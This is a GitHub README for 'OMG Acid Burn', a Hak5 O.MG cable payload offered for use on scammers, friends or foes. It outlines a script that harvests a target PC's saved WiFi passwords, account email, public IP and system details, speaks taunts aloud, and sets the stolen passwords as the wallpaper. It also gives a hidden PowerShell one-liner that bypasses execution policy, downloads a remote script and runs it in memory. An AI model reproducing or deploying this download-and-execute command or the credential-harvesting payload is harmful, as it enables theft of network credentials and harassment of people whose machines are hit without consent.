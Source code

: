 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-AcidBurn/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# OMG Acid Burn

A script I put together to torment Call Center Scammers but can be used on your friends as well.. or Foes.

## Description

This program enumerates a target PC to include Operating System, RAM Capacity, Public IP, and Email associated with microsoft account.
The SSID and WiFi password of any current or previously connected to networks.
It determines the last day they changed thier password and how many days ago.
Once the information is gathered the script will pause until a mouse movement is detected
Then the script uses Sapi speak to roast their set up and lack of security
If wifi networks and passwords are detected wallpaper will be changed to image displaying that information
Image generated will be saved to desktop, steganography is used to put hidden message at bottom of binary output of image generated

## Getting Started

### Dependencies

* DropBox - Your Shared link for the intended file
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in OMG Cable
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https:// < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```
* Enumerate and get Full Name, Amount of RAM, Public IP, Wifi Password Length, Wifi Networks and Passwords, Day Password was last changed, Email
* Custom responses have been programmed to roast the target based on the information gathered during enumeration phase 
* Wifi Networks and passwords will be generated into an image that will be saved on the desktop
* Image opened in notepad will reveal a hidden message at the bottom of the binary output
* Script will freeze until a mouse movement is detected 
* Sapi Speak will be used to speak out loud the custom responses 
* Desktop wallpaper will be changed to the image of the targets Wifi Networks and Passwords
* Text file will be left on the target desktop with whatever message you choose

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  Project Link: [https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG-AcidBurn](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG-AcidBurn)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)
* [0iphor13](https://github.com/0iphor13)


<p align="right">(<a href="#top">back to top</a>)</p>
